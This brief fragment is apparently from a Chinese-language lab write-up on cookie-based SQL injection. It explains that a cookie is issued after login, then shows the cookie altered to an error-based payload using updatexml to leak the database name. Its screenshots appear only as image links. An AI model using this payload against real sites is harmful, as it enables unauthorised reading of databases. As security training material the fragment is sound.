 ```sql
//正常登陆后，自动生成一个cookie
```

![](file/image_odHKxEaSey.png)

```sql
//修改cookie
admin' and  updatexml(1,concat(0x7e,database()),1)#
```

![](file/image_hKmgZ5Mhrt.png)
